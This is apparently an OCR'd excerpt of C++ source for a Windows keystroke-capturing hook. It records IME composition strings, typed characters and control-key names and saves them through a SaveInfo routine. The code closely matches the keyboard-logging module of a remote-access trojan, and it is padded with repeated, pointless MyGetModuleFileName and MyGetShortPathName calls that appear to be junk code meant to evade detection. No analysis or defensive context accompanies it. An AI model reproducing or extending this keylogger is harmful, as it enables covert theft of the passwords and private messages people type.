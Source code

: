 ```
    {
        return result;
    }

    m_dwLastMsgTime = pMsg->time;

    if ((pMsg->message == WM_IME_COMPOSITION) && (pMsg->lParam & GCS_RESULTSTR))
    {
        HWND	hWnd = pMsg->hwnd;
        CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
        HIMC	hImc = ImmGetContext(hWnd);
        CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
        LONG	strLen = ImmGetCompositionString(hImc, GCS_RESULTSTR, NULL, 0);
        CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
        // 考虑到UNICODE
        strLen += sizeof(WCHAR);
        CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
        ZeroMemory(m_pTShared->str, sizeof(m_pTShared->str));
        CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
        strLen = ImmGetCompositionString(hImc, GCS_RESULTSTR, m_pTShared->str, strLen);
        CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
        ImmReleaseContext(hWnd, hImc);
        CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
        SaveInfo(m_pTShared->str);
    }

    if (pMsg->message == WM_CHAR)
    {
        if (pMsg->wParam <= 127 && pMsg->wParam >= 20)
        {
            strChar[0] = pMsg->wParam;
            strChar[1] = TEXT('\0');
            SaveInfo(strChar);
        }
        else if (pMsg->wParam == VK_RETURN)
        {
            SaveInfo(TEXT("\r\n"));
        }
        // 控制字符
        else
        {
            CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
            memset(KeyName, 0, sizeof(KeyName));
            CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
            if (GetKeyNameText(pMsg->lParam, &(KeyName[1]), sizeof(KeyName)-2) > 0)
            {
                KeyName[0] = TEXT('[');
                CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
                lstrcat(KeyName, TEXT("]"));
                SaveInfo(KeyName);
            }
        }
    }
    return result;
}
```
